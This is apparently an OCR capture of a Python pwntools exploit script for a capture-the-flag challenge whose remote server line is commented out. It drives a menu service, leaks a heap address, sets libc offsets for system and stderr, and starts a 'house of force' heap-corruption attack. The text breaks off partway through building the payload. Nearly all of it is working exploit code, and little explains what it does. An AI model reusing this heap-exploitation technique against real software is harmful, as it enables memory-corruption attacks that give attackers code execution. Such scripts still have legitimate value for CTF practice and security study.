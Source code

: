 ```python
#r = remote('ssl-added-and-removed-here.ctfcompetition.com', 11111, ssl=True)

def recvuntil(rec='', p=PRINT):
    global r
    data = r.recvuntil(rec)
    if p:
        print(data)
    return data

def sendline(msg='', p=PRINT):
    global r
    r.sendline(msg)

def sr(rec=PROMPT, msg='', p=PRINT):
    recvuntil(rec, p)
    sendline(msg, p)
    if p:
        print(msg)

def add_entry(name=None, small=None, large=None, back=True, p=PRINT):
    sr(msg='1', p=p)
    if name:
        sr(msg='1', p=p)
        sr(msg=name, p=p)
    if small:
        sr(msg='2', p=p)
        sr(msg=small, p=p)
    if large:
        sr(msg='3', p=p)
        sr(msg=large, p=p)
    if back:
        sr(msg='4', p=p)

def print_entries(number=0, p=PRINT):
    sr(msg='2')
    for i in range(0, number):
        recvuntil('Name: ')
        name = recvuntil('\n')
        recvuntil('Small: ')
        small = recvuntil('\n')
        recvuntil('Large: ')
        large = recvuntil('\n')
    return (name, small, large)

if __name__ == '__main__':
    text_end_of_entry_offset = 0xf54
    libc_system_offset = 0x3ffd0
    libc_stderr_offset = 0x1485c8
    text_stderr_offset = 0x12210

    add_entry(large='8')
    _, _, heap_addr = print_entries(1)
    heap_addr = int(heap_addr, 16)
    heap_offset = heap_addr & 0xfff
    heap_base = heap_addr - heap_offset

    log.info('Leaked heap_addr: 0x{:x}'.format(heap_addr))
    log.info('Leaked heap_base: 0x{:x}'.format(heap_base))

    # house of force to leak a .text addr at the beginning of the heap
    name = p64(0xffffffffffffffff) * 31
    # here use a relative offset as we stay on the heap
    # 0x20 and 0x100 are also removed because of the two headers and the size
```